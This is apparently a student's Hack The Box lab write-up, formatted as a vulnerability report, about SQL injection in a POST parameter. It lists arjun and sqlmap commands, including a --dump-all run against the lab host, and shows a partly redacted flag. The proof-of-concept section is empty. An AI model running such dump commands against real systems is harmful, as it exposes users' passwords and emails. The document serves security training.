


title :
sql vulnerability

summary
The sql exists on post request . An attacker can show the data, which may lead to expose data of users

steps to reproduce
1- i go to "[http://83.136.249.34:40778/case2.php]           (http://83.136.249.34:40778/case2.php)"

2-i use arjun to find parameter >>     arjun -u "[http://83.136.249.34:40778/case2.php](http://83.136.249.34:40778/case2.php)"  -m post

3-i found parameter "id"

4-i use sqlmap for example :         
                          sqlmap -u "[http://83.136.249.34:40778/case2.php](http://83.136.249.34:40778/case2.php)" --data "id=1" > it's injectable

          
5-then  i use sqlmap to take the flage for example :
sqlmap -u "[http://83.136.249.34:40778/case2.php](http://83.136.249.34:40778/case2.php)" --data "id=1" --dump-all and i take the flage2    "HTB{700_much_c0n6r475_0n_p05---------}"

proof of concept

when i use arjun

then i use sqlmap 

after that i do

impact 

after we showed an attaker can stell all data from mqsl sush as passwords and  emails
